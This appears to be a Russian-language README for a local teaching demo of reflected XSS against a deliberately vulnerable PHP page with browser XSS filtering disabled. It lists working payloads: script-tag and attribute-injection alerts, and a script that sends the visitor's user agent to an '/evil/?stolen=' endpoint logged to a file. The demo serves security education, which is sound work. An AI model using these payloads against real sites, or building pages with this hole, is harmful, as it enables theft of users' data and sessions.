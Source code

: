# Демонстрация reflected XSS

## Порядок эксплуатации

1. Запустить сервер HTTP: `php -S 127.0.0.1:8080`.
2. Открыть в браузере веб­‑страницу <http://127.0.0.1:8080/hole/>.
3. Вставить в поисковую строку один из фрагментов из раздела «Варианты ввода».

Ненадёжная защита от XSS была встроена в браузеры Chrome 4.0.249–⁠77, Edge 12–⁠17, Internet Explorer 8–⁠11. В примере эта защита отключена посредством установки заголовка `X-XSS-Protection: 0`.

## Варианты ввода

### Модальное окно

#### С тегами

Сработает при вставке в содержимое элемента HTML.

```html
<script>alert('Привет, я XSS!');</script>
```

#### Без тегов

Сработает при вставке в атрибут элемента HTML.

```html
" autofocus onfocus="alert('Привет, я XSS!')
```

### Межсайтовый запрос

1. Фрагмент для вставки:

    ```html
    <script>window.onload = function () { var iframe = document.createElement('iframe'); iframe.src = '/evil/?stolen=' + navigator.userAgent; document.getElementsByTagName('body')[0].appendChild(iframe); }</script>
    ```

2. Открыть в текстовом редакторе файл `evil/stolen.log`.
